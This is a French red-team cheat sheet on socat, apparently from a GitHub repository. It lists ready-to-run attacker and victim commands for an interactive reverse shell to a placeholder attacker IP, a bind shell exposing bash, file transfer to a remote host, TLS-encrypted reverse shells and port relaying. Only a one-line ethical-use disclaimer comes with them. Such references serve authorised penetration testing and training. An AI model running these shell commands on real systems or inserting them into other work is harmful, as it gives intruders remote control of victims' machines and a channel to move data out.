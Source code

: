 # 🔗 SOCAT - GUIDE COMPLET RED TEAM

## 📋 INTRODUCTION
`socat` (SOcket CAT) est un outil en ligne de commande qui établit deux flux de données bidirectionnels et transfère les données entre eux. Il peut être vu comme une version beaucoup plus puissante et flexible de Netcat.

### Syntaxe de Base
```bash
socat [OPTIONS] <ADRESSE_1> <ADRESSE_2>
```
`socat` connecte `ADRESSE_1` à `ADRESSE_2`.

### Types d'adresses
- `TCP4:<HOTE>:<PORT>`: Connexion TCP IPv4.
- `TCP-LISTEN:<PORT>`: Attend des connexions TCP.
- `EXEC:<COMMANDE>`: Exécute une commande.
- `FILE:<CHEMIN>`: Lit ou écrit dans un fichier.
- `STDIO`: Utilise l'entrée/sortie standard.
- `OPENSSL-LISTEN:<PORT>`: Attend des connexions chiffrées SSL/TLS.
- `OPENSSL:<HOTE>:<PORT>`: Se connecte à un service SSL/TLS.

## ⚡ REVERSE SHELLS (PLUS STABLES QU'AVEC NETCAT)
Un shell interactif complet (TTY).

- **Machine de l'attaquant (en écoute)**:
  ```bash
  socat file:`tty`,raw,echo=0 tcp-listen:4444
  ```
- **Machine de la victime (se connecte)**:
  ```bash
  socat tcp:<IP_ATTAQUANT>:4444 exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane
  ```

## 🛡️ BIND SHELLS
- **Machine de la victime (en écoute)**:
  ```bash
  socat tcp-listen:4444,reuseaddr,fork exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane
  ```
  *`fork` permet de gérer plusieurs connexions.*
- **Machine de l'attaquant (se connecte)**:
  ```bash
  socat - tcp:<IP_VICTIME>:4444
  ```

## 🚀 TRANSFERT DE FICHIERS
- **Côté réception (en écoute)**:
  ```bash
  socat tcp-listen:4444,reuseaddr file:fichier_recu.dat,create
  ```
- **Côté envoi**:
  ```bash
  socat file:fichier_a_envoyer.dat tcp:<IP_RECEPTION>:4444
  ```

## ⚡ CONNEXIONS CHIFFRÉES (SSL/TLS)
C'est l'un des plus grands avantages de `socat` par rapport à `netcat`.

1.  **Générer un certificat auto-signé sur la machine qui écoute**:
    ```bash
    openssl req -newkey rsa:2048 -nodes -keyout server.key -x509 -days 365 -out server.crt
    cat server.key server.crt > server.pem
    ```
2.  **Listener SSL (attaquant)**:
    ```bash
    socat openssl-listen:4444,cert=server.pem,verify=0,fork exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane
    ```
3.  **Client SSL (victime)**:
    ```bash
    socat openssl:<IP_ATTAQUANT>:4444,verify=0 exec:'/bin/bash -li',pty,stderr,setsid,sigint,sane
    ```
*`verify=0` est nécessaire pour accepter le certificat auto-signé.*

## 🎭 PORT FORWARDING / RELAIS
Rediriger le trafic d'un port local vers une autre machine.
```bash
# Redirige toutes les connexions arrivant sur le port 8080 local vers le port 80 de internal-server.com
socat tcp-listen:8080,reuseaddr,fork tcp:internal-server.com:80
```

## 🎯 AVANTAGES vs NETCAT
- ✅ Chiffrement SSL/TLS natif.
- ✅ Meilleure gestion des shells interactifs (TTY/PTY).
- ✅ Plus de protocoles supportés.
- ✅ Options de `fork` pour gérer plusieurs clients.
- ✅ Logging et debugging plus avancés.

---
> ⚠️ **USAGE ÉTHIQUE** : `socat` est un outil d'administration système puissant qui peut être détourné à des fins malveillantes. Utilisez-le de manière responsable.
